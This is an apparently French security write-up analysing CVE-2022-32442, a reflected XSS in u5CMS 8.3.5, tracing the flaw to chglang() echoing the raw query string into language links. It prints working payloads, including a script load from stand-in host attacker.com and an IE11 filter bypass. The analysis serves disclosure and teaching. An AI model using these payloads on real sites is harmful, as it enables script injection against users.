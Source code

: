 ```yaml
---
description: 22 Juin 2022
---
```


# CVE-2022-32442

> Je vous propose mon analyse de la **CVE-2022-32442**, qui est une vulnérabilité de type Cross-Site Scripting (XSS) dans le système de gestion de contenu (CMS) nommé u5CMS.

## Description

* **Vendeur :** Yuba ([https://yuba.ch/](https://yuba.ch/))
* **Produit :** u5CMS ([https://yuba.ch/index.php?c=u5cms\&l=en](https://yuba.ch/index.php?c=u5cms\&l=en))
* **Version(s) impactée(s) :** 8.3.5
* **Type de vulnérabilité :** XSS réfléchie ([CWE-79 - Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')](https://cwe.mitre.org/data/definitions/79.html))

La page d'accueil d'u5CMS en version 8.3.5 est vulnérable à une Cross-Site Scripting (XSS) de type réfléchie. La charge peut être être injectée après le caractère `?` de l'URL et est réfléchie dans les deux liens HTML permettant le changement de langue.

![S](<../../.gitbook/assets/image (5) (1) (2).png>)

## Analyse de la vulnérabilité

Ce qui suit le caractère `?` de l'URL est réfléchie dans l'attribut `href` du lien `<a></a>` des deux (autres) choix de langues qu'offre le CMS :&#x20;

![](<../../.gitbook/assets/image (9) (1) (1) (1) (1).png>)

L'injection d'un caractère `"` visant à s'échapper de l'attribut `href` afin d'injecter la charge malicieuse `"onmouseover='alert(1)'value="&l=fr` ne fonctionne pas. En effet, le navigateur encode les caractères spéciaux rendant l'attaque ainsi sans effet :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1) (1).png>)

L'encodage effectué par les navigateurs est le résultat de la bonne implémentation de la section 2.2 de la RFC 1738 ([https://datatracker.ietf.org/doc/html/rfc1738#section-2.2](https://datatracker.ietf.org/doc/html/rfc1738#section-2.2)) :&#x20;

![](<../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png>)

Firefox, Chrome ou encore Edge sont des bons élèves et implémentent correctement cette RFC, mais ce n'est pas forcément le cas pour ce bon vieux IE11. En effet ce navigateur n'encode pas les noms et les valeurs des paramètres :&#x20;

![](<../../.gitbook/assets/image (5) (1) (1) (1) (1).png>)

L'exécution d'un script distant est également possible grâce à la payload suivante `"><script/src=https://attacker.com/xss.js>&l=fr` :&#x20;

![](<../../.gitbook/assets/image (4) (1) (1).png>)

Et ce, même si le filtre anti-XSS d'IE11 semble être bien actif :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1) (1) (1).png>)

{% hint style="info" %}
Microsoft a annoncé qu'Internet Explorer 11 ne sera plus supporté et progressivement retiré des versions de Windows. Cela peut avoir pour conséquence que les remontées de ce type (ie. exploitable seulement sous IE11) ne soient plus acceptées au sein des programmes de Bug Bounty.
{% endhint %}

{% hint style="danger" %}
Attention à lire également la partie "Code vulnérable" afin de bien comprendre le fonctionnement de l'attaque et la raison pour laquelle la vulnérabilité est exploitable seulement sous IE11.
{% endhint %}

Afin de prouver la présence de la XSS réfléchie sur n'importe quel navigateur il est possible de passer par une interception de proxy via Burp (ou autre) :&#x20;

![](<../../.gitbook/assets/image (11) (1) (1) (1) (1).png>)

## Code vulnérable

Le fichier `index.php` va rechercher les motifs `{{{motifs}}}` dans le fichier `htmltemplate.css` :

{% code title="index.php" %}
```php
$template=str_replace('[_logo_]','r/logo/'.def($file_d,$file_e,$file_f).'?t='.filemtime('r/logo/'.def($file_d,$file_e,$file_f)),file_get_contents('r/htmltemplate.css'));
...
$i_i_item=explode('{{{',$template);
for ($i_i_i=0;$i_i_i<count($i_i_item);$i_i_i++) {
   if (strpos($i_i_item[$i_i_i],'}}}')>1) {
      $i_i_part=explode('}}}',$i_i_item[$i_i_i]);
```
{% endcode %}

A un certain moment, le motif sera celui concernant l'affichage des liens de changement de langues `{{{languages}}}` :&#x20;

{% code title="htmltemplate.css" %}
```html
<div id="main">
  <div id="header" style="background:url([_logo_]);background-size:cover">
    <div id="metanavi">&nbsp;&nbsp;&nbsp;<a name="search"></a>{{{search}}}
      <div id="languages">{{{languages}}}</div>
```
{% endcode %}

Alors, le fichier nommé `u5sys.languages.php` sera inclus (`$i_i_part[0]` et aura pour valeur `"languages"`) :&#x20;

{% code title="index.php" %}
```php
if (file_exists('u5sys.'.$i_i_part[0].'.php')) include('u5sys.'.$i_i_part[0].'.php');
```
{% endcode %}

Ce nouveau fichier va afficher au sein de la page d'accueil les deux liens de changement de langues suivant la valeur contenu dans le paramètre de l'URL `l` :

{% code title="u5sys.languages.php" %}
```php
if ($_GET['l']==$lan3na) {
  $lancode=$lan3na;
  $nbsp='';
  if ($lan1name!='' && $lan2name!='') $nbsp='&nbsp;&nbsp;&nbsp;';
  if($u5showlinkofactivelanguageinmetanavi=='yes')$lanswitch='<a href="'.chglang($lan1na).'">'.$lan1name.'</a>'.$nbsp.'<a href="'.chglang($lan2na).'">'.$lan2name.'</a>'.$nbsp.'<a href="'.chglang($lan3na).'">'.$lan3name.'</a>';
  else $lanswitch='<a href="'. chglang($lan1na).'">'.$lan1name.'</a>'.$nbsp.'<a href="'.chglang($lan2na).'">'.$lan2name.'</a>';
}

...

echo $lanswitch;
```
{% endcode %}

{% hint style="info" %}
Il existe en fait trois blocs du même genre en fonction de la langue sélectionnée : "fr", "de" ou "en". L'exemple de code ici correspond à la langue "fr".
{% endhint %}

La fonction `chglang()` retourne la variable `$u` qui prend comme valeur le caractère `?` ainsi que  ce qui suit dans l'URL (grâce à `$_SERVER['QUERY_STRING']`) :

{% code title="chglang.inc.php" %}
```php
function chglang($l) {
  global $lan1na;
  global $lan2na;
  global $lan3na;
  
  $u='?'.$_SERVER['QUERY_STRING'];
  //echo 'query string : ' . $_SERVER['QUERY_STRING'];
  $u=str_replace('l='.$lan1na,'',$u);
  $u=str_replace('l='.$lan2na,'',$u);
  $u=str_replace('l='.$lan3na,'',$u);
  $u=str_replace('l=','',$u);
  $u=($u.'&l='.$l);
  $u=str_replace('&&','&',$u);
  $u=str_replace('?&','?',$u);
  //$u=str_replace('&','&amp;',$u);
  return $u;
}
```
{% endcode %}

{% hint style="info" %}
Les variables $lan1na, $lan2na, $lan3na correspondent respectivement aux chaines "de", "en" et "fr". Elles sont récupérées depuis la table `languages` en base de données.
{% endhint %}

Le coupable de la non exploitabilité de la vulnérabilité XSS sur d'autres navigateurs que IE11, à savoir à minima Chrome et Firefox, est la récupération de la valeur de l'URL par la variable `$_SERVER['QUERY_STRING']`. En effet, les donnée présentes dans l'URL et récupérées via ce procédé sont bien encodées par les navigateurs récents (la situation serait la même si les données étaient récupérées par la variable `$_SERVER['REQUEST-URI']`) et pas décodé par un composant côté serveur. Ce n'est pas le cas lors d'une récupération des données via la variable `$_GET['variable']` par exemple.

{% code title="globals.inc.php" %}
```php
$sql_a="SELECT * FROM languages";
$result_a=mysql_query($sql_a);
...
$row_a = mysql_fetch_array($result_a);
...
$lan1na=$row_a['lan1na'];
$lan2na=$row_a['lan2na'];
$lan3na=$row_a['lan3na'];
```
{% endcode %}

![](<../../.gitbook/assets/image (3) (1) (1) (1) (1).png>)

**Mise à jour du 10/07/2022**

La reproduction du code vulnérable dans un contexte plus simple (hébergé toujours sur la même VM) :&#x20;

```php
<?php
echo 'a href="example.com' . $_SERVER["QUERY_STRING"] .'">lien</a>';
?>
```

fait se déclencher la protection anti-XSS d'IE11 :&#x20;

![](<../../.gitbook/assets/image (8) (1) (1) (2).png>)

La cause de cette différence (entre l'environnement utilisé pour le test de u5cms et celui de PoC) n'a pas pu être identifiée mais le contournement suivant `<script/%00%00v%00%00>alert(1)</script>` semble fonctionner dans le cadre du PoC :&#x20;

![](<../../.gitbook/assets/image (23) (1) (1) (1) (1).png>)

et également sur le CMS vulnérable :&#x20;

![](<../../.gitbook/assets/image (3) (1) (2).png>)

## Ressources

* [https://github.com/u5cms/u5cms/issues/49](https://github.com/u5cms/u5cms/issues/49)
* [https://twitter.com/xsspayloads/status/1276386591972438017](https://twitter.com/xsspayloads/status/1276386591972438017)
